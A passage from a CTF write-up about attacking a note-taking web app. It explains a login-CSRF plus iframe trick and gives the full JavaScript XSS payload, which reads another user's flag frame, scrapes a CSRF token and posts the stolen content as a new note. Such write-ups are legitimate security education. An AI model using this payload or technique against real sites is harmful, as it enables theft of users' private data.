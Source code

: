 I hosted it locally with `python3 -m http.server 9090`, and a HTML file like:

```html
<!DOCTYPE html>
<body>
  <script src="xss.js"></script>
</body>
```

There's a few convenience functions, but the real exploit is at the bottom. We load the flag user's notes into a frame, then we create a POST form that logs in our XSS user.

I learned about the [form element's `target` attribute](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/target), which causes the form to be submitted into an iframe. This is crucial because otherwise our page with the flag iframe would be navigated away from when the login happens.

Next we need to create the payload for the XSS user. I loaded up my PoC script (which doesn't work since our XSS user doesn't exist yet) and used Firefox's developer tool to change my JS console to be in the context of the XSS frame. Next, I used a similar trick to liveoverflow's video to get the flag from the flag frame. I used the `window.parent` property to get back to the main window, then I used the `frames` property on that window to access the flag frame, and it worked:

![Accessing the flag in the JS console](Pasted%20image%2020220327152209.png)

Next, I created a quick script to exfiltrate that flag by creating a new note. Since our XSS payload in the noted app's domain, we don't have to worry about CORS restrictions.

```html
<script>
  (async function xssPayload() {
    const flag = window.parent.frames["flag"].document.body.innerText;
    const tokenReq = await fetch("/new");
    const tokenHTML = await tokenReq.text();
    const token = /name="_csrf" value="(.+?)"/g.exec(tokenHTML)[1];
    const noteReq = await fetch("/new", {
      method: "POST",
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body:
        `_csrf=${encodeURIComponent(token)}` +
        `&title=flag&content=${encodeURIComponent(flag)}`,
    });
  })();
</script>
```
